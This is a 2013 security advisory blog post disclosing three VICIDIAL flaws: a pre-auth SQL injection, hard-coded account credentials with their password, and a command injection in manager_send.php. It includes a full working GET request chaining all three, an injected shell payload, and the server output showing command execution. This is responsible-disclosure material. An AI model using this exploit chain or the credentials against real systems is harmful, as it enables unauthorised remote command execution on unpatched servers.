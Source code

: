 ```yaml
---
layout: post
title: "VICIDIAL: Multiple Vulnerabilities"
date: 2013-10-23 02:20
comments: true
categories: 
---
```


## Background

[VICIDIAL](http://www.vicidial.org/vicidial.php) (a.k.a. Asterisk GUI client) is an open-source dialer built on top of the Asterisk PBX. It's written in PHP, and has a significant number of security issues.

In addition to the open-source project, the company behind VICIDIAL, [The Vicidial Group](http://www.vicidial.com/), also offers VICIDIAL in a hosted environment.

At this time, the current release version **is still vulnerable**. Vendor reports hosted users are on a fixed version. Vendor proposed to release the OSS code in mid-July, as of October 23rd, no update or advisory has been released.

After discussions with other researchers, I have made the decision that after waiting more than 140 days for a release, patches, or an advisory warning users, that the next responsible step is to disclose the issue publicly.

This is not a decision I take lightly, but I believe at this point users of this application should understand the degree of risk involved, and have details so they can take action to minimize that risk.

## Overview

Tested versions: 2.7RC1, 2.7, 2.8-403a; it is likely other versions are affected.

There are three vulnerabilities that I will discuss here:

 1. Pre-Auth SQL Injection in `./apc/SCRIPT_multirecording_AJAX.php`
 2. Hard-Coded User Credentials
 3. Command Injection in `./agc/manager_send.php`

There are pre and/or post authentication SQL injection flaws in nearly every file in the `./agc` directory. The web portion is split between `./agc` (which is the 'agent' interface) and `./vicidial` (the administrative interface). My review did not include the `./vicidial` directory, though a quick glance indicates that there are likely many issues there as well.

There are many other issues; from XSS to a possible DoS by allowing an attacker to write directly to a log file until the attacker has exhausted the free space on the server.

There's also `./vicidial_mysql_errors.txt` - it might be of interest as it contains query parameters.

I will not document all of the issues that I've found; partly because I don't want to take the time, and also because I feel bad for the team at OSVDB - hundreds of entries for the same application wouldn't be fun.

## Pre-Auth SQL Injection

This is your typical, boring, SQL injection:

{% codeblock lang:php SCRIPT_multirecording_AJAX.php - Line 44 %}
<?php
...
$stmt="select campaign_rec_filename from vicidial_campaigns where campaign_id='$campaign'";
{% endcodeblock %}

The `$campaign` variable is unsanitized and passed directly to the query. This isn't the best SQL Injection ever, but it demonstrates the issue.

## Hard-Coded User Credentials

There are two accounts that are created when you install VICIDIAL that have hard coded passwords, that are used by the software. While these accounts have minimal permissions, they do allow an attacker to get to portions of the code not accessible without a valid user account.

Accounts:

 * VDAD
 * VDCL

Both accounts have the same password: `donotedit`.

## Command Injection

In multiple locations, there are calls to `passthru()` that do not perform any filtering or sanitization on the input. In this case, we are looking at `./agc/manager_send.php` line 429. 

Here is the code in question:

{% codeblock lang:php manager_send.php %}
<?php
...
if ($ACTION=="OriginateVDRelogin")
	{
	if ( ($enable_sipsak_messages > 0) and ($allow_sipsak_messages > 0) and (preg_match("/SIP/i",$protocol)) )
		{
		$CIDdate = date("ymdHis");
		$DS='-';
		$SIPSAK_prefix = 'LIN-';
		print "<!-- sending login sipsak message: $SIPSAK_prefix$VD_campaign -->\n";
		passthru("/usr/local/bin/sipsak -M -O desktop -B \"$SIPSAK_prefix$campaign\" -r 5060 -s sip:$extension@$phone_ip > /dev/null");
		$queryCID = "$SIPSAK_prefix$campaign$DS$CIDdate";

		}
	$ACTION="Originate";
	}
{% endcodeblock %}

To exploit this, the following values must be set:

 * `enable_sipsak_messages=1`
 * `allow_sipsak_messages=1`
 * `protocol=sip`
 * `ACTION=OriginateVDRelogin`
 * `session_name=AAAAAAAAAAAA` (or any other value at least 12 bytes long)
 * `server_ip=' OR '1' = '1`
 * `user=VDCL`
 * `pass=donotedit`

The payload is passed in the `extension` parameter, for my testing, I used the following:

`extension=;id;uname -a;`

As you've probably noticed, the value for `server_ip` isn't just a dummy value, it's taking advantage of a SQL Injection vulnerability on line 285:

{% codeblock lang:php manager_send.php %}
<?php
...
$stmt="SELECT count(*) from web_client_sessions where session_name='$session_name' and server_ip='$server_ip';";
{% endcodeblock %}

This allows us to bypass the check for an active session, and we use the hard coded credentials to get around the need for authentication.

When you execute this, it looks like this:

    GET http://192.168.10.131/agc/manager_send.php?enable_sipsak_messages=1&allow_sipsak_messages=1&protocol=sip&ACTION=OriginateVDRelogin&session_name=AAAAAAAAAAAA&server_ip=%27%20OR%20%271%27%20%3D%20%271&extension=%3Bid%3Buname%20-a%3B&user=VDCL&pass=donotedit HTTP/1.1
    User-Agent: Fiddler
    Host: 192.168.10.131
    
    --
    
    HTTP/1.1 200 OK
    Date: Sun, 02 Jun 2013 23:22:38 GMT
    Server: Apache/2.2.21 (Linux/SUSE)
    X-Powered-By: PHP/5.3.8
    Cache-Control: no-cache, must-revalidate
    Pragma: no-cache
    Content-Length: 291
    Content-Type: text/html; charset=utf-8
    
    
    <!-- sending login sipsak message: LIN- -->
    uid=30(wwwrun) gid=8(www) groups=8(www)
    Linux linux-0y3h 3.1.10-1.23.1-pae #1 SMP Tue May 21 12:46:34 UTC 2013 (8645a72) i686 i686 i386 GNU/Linux
    ERROR Exten  is not valid or queryCID LIN--130602192238 is not valid, Originate command not inserted

As you can see, when you run this, the the returned text from the shell is included in the middle of the body in the server's response.

## Timeline & Vendor Response

The vendor quickly acknowledged the issues and promised quick fixes. As time has gone on, their hosted users received the security fixes, users of the open-source version remain unaware of the issue and unprotected.

 * 6/3/2013 - Vendor notified
 * 6/3/2013 - Vendor confirmed
 * 6/13/2013 - Vendor states first phase of changes complete; began rolling out fixes to hosted users.
 * 6/15/2013 - Requested release timeline.
 * 6/15/2013 - Vendor requests disclosure delay till mid-July 2013.
 * 7/3/2013 - Vendor advises second phase of changes complete and being pushed to hosted users.
 * 8/26/2013 - Requested status update.
 * 8/27/2013 - Vendor advises final phase of changes complete, hosted users update with all security changes. Expects to release OSS code in two weeks.
 * 9/20/2013 - Requested status update.
 * 9/25/2013 - Vendor advises of unrelated delay. Expected to complete work for next release by 9/30.
 * 10/23/2013 - Decision made that further delays not in the public interest.

